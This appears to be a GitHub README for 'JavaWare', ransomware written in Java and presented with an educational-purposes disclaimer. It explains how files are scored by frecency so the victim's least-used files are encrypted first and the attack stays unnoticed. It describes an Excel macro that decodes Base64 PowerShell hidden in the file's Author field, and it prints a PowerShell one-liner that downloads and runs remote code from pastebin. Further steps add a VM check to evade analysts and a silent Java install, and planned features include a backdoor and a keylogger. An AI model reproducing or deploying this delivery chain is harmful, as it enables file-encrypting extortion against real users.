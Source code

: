# JavaWare
### A Ransomware Built in Java

#### :pushpin: Disclaimer
> I built this purely for **educational purposes**. I take no responsibility and/or liability for how you choose to use any of the code available here. If executing the ransomware, please do not do so on your own machine as it will encrypt your files. Although I did include a function to decrypt, I am in no way responsible. 

JavaWare is a ransomware which will observe your system, learn which files you use, and then encrypts your machine. Once all files have been encrypted it will launch the payload screen. 

![alt text](https://raw.githubusercontent.com/kyralmozley/JavaWare/V1.0/Screenshots/Pay%20Load.png "Launch Screen")

### :crystal_ball: How does it learn which files I use? 
Maths. 

It uses a metric called *freceny*[1] (frequency + recency) to give each file a score. Using the idea of exponential decay, it ensures that most recently used files are scored higher, and as it observes your system over the course of a week, the more a file is accessed in this time, the higher the score. It then encrypts in such a way so that files that you are not likely to be using (i.e. low scored) first, this ensures that it can go as long as possible without being noticed, allowing it to encrypt the entire filesystem. 

<p align="center">
  <img src="http://latex.codecogs.com/gif.latex?\gamma=\sum_{i=1}^n+\beta" border="0"/>
 </p>
 <p align="center">
  <img src="http://latex.codecogs.com/gif.latex?\beta=p\cdot {e^{-a\lambda}}" border="0"/>
</p>
<p align="center">
<img src="http://latex.codecogs.com/gif.latex?\lambda=\frac{\ln 2}{30}" border="0"/>
</p>

Where <img src="http://latex.codecogs.com/gif.latex?p" border="0"/> is a recency weight, <img src="http://latex.codecogs.com/gif.latex?a" border="0"/> is a frequency ranking (the time since last modification in hours), and 
<img src="http://latex.codecogs.com/gif.latex?\lambda" border="0"/> is a constant


|Recency Bucket | Score |
|---------------|-------|
| Today         | 1.0   |
| Last 5 Days   | 0.9   |
| Last 10 Days  | 0.7   |
| Last 30 Days  | 0.4   |
| Last 90 Days  | 0.1   |
| > 90 Days     | 0.0   |



### :lock: How does it encrypt? 
AES 128 bit Encryption in CBC Mode (Counter Block Mode ) PKCS5 Padding <br/>
AES is a symmetric encryption algorithm which works on blocks of a fixed size (16 bytes for AES128). *Padding* (PKCS5) is used if the block is less than 16 bytes long. We split the stream into 16 byte blocks, which is encrypted using AES and the result is XORed with the next block in the stream before it is encrypted. For the first block, it XORs it with an *initialization vector*, a random 16 byte value. 

### :page_facing_up: What does it encrypt? 
*FileTypes.java* defines what type of files to encrypt, it includes common document types and so will avoid program files to ensure your system is still functional. Similarly, *AvoidedDir.java* includes directories to avoid in traversal, such as *Windows* and *Program Files*. 

### :computer: How does it launch? 
The Microsoft Excel file, *August Report.xlsm* contains a Macro which is run on Workbook Open. Encoded Base64 PowerShell code is hidden within this file under the 'Author' field[2]. So the macro calls a function which gets the author, decodes it, and then runs the shell. The PowerShell script is: 
```powershell
Powershell Invoke-Expression -Command  $([string]([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Invoke-WebRequest -Uri https://pastebin.com/raw/1538VQvN).content))))
```
This piece of code downloads another Base64 encoded powershell script, that checks whether or not the system is running in a virtual machine. If it is, it stops. This is a classic trick used by sophisticated malware such that analyst cannot then observe and reverse engineer the malware. 

Once it has established it is not in a VM, it then downloads code to check whether Java is currently installed in the system, if not, it downloads the latest version silently in the background. 

Lastly, it downloads and launches the jar. 

```powershell
$JAVA_VERSION = Get-ChildItem -Path "C:\Program Files\Java" | Select-String -Pattern 'jdk-'
$java = "C:\Program Files\Java\" + $JAVA_VERSION + "\bin\java.exe"
Start-Process -FilePath $java -ArgumentList '--module-path "C:\temp\javafx-sdk-11.0.2\lib" --add-modules=javafx.controls -jar temp\JavaWare.jar' -NoNewWindow
```

### :shipit: Future Tasks 
- [ ] Add a persistence method 
- [ ] Include 'fun' features such as a backdoor, keylogger etc.






### :notebook_with_decorative_cover: References: 
[\[1\]: Frecency Algortihm](https://developer.mozilla.org/en-US/docs/Mozilla/Tech/Places/Frecency_algorithm) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.
[\[2\]: The Increased Use of PowerShell in Attacks - Symantec](https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.

